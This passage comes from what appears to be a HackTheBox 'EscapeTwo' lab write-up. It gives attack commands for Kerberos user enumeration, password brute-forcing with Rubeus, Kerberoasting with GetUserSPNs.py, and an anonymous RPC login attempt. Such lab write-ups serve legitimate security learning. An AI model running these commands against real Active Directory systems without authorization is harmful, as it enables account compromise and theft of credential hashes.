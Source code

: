    - Command #1: `nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm=<Domain>,userdb=<Wordlist> <IP>`

   - Command #2: `./kerbrute userenum <UserList> --dc <IP> --domain <Domain>`

   - Command #3: `msfconsole ==> use auxiliary/gather/kerberos_enumusers`

   - Command #4: `.\Rubeus.exe brute /users:<UserList> /passwords:<Wordlist> /domain:<Domain>`

2. **Kerberoasting**

   - Kerberoasting is a post-exploitation attack technique that attempts to obtain a password hash of an Active Directory account that has a Service Principal Name (“SPN”).
   - Command: ` python GetUserSPNs.py <DomainName>/<DomainUser>:<Password> -outputfile <FileName>`

Let's try to enumerate users using `kerbrute`.


![Kerberos_Enum](/assets/images/hackthebox/EscapeTwo-Writeup/Kerberos_Enum.png)

We can see above `kerbrute` shows us four valid names, so we can note them for later use.

#### Port 135 (RPC)

> **Microsoft Remote Procedure Call (RPC) service**, which allows communication between different processes on a network. If this port is left open and unrestricted, it can be exploited by attackers to execute arbitrary code, gain unauthorized access to sensitive data or launch DDoS attacks.

##### **Enumeration**

1. **Connect to the server**

   - Command: `rpcclient -N -U "" <target-ip>`

We can't login to the server using `RPC` as we don't have valid credentials.

![rpc_login](/assets/images/hackthebox/EscapeTwo-Writeup/rpc_login.png)
